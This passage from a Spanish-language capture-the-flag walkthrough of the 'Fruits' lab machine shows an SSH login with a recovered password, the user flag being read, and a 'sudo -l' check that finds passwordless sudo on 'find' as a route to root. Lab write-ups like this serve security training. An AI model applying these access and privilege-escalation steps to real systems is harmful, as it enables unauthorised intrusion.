 ¡Bingo! Obtenemos la contraseña de `bananaman`. Con esto, podremos conectarnos mediante
el servicio SSH con la contraselña `celtic`.

```bash
└─# ssh bananaman@192.168.1.12
bananaman@192.168.1.12's password: 
Linux Fruits 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 14 17:36:53 2024 from 192.168.1.11
bananaman@Fruits:~$ 
```

Una vez conectados, obtenemos la primera flag, la del user.txt. Lo que sigue es escalar privilegios
para convertirnos en root.

```bash
bananaman@Fruits:~$ id
uid=1001(bananaman) gid=1001(bananaman) grupos=1001(bananaman)
bananaman@Fruits:~$ ls
user.txt
bananaman@Fruits:~$ cat user.txt 
482c811da5d5b4bc6d497ffa98491e38
bananaman@Fruits:~$ 
```
flag de **user.txt**: `482c811da5d5b4bc6d497ffa98491e38`

## 5. Escalamiento de privilegios <a name="id5"></a>

Lo primero es validar si el usuario `bananaman` puede ejecutar algo sin permisos de root.

```bash
bananaman@Fruits:~$ sudo -l
Matching Defaults entries for bananaman on Fruits:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
bananaman@Fruits:~$
```

Observamos que puede ejecutar el comando `find` sin permisos de root. Ahora tenemos que
buscar si podemos obtener una shell con privilegios de root usando alguna configuración con
este comando, siguiendo algunos parámetros.


Despues de unos buenos minutos de busqueda logramos encontrar algo que nos podria
ayudar.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/8.png?raw=true "consulta web")
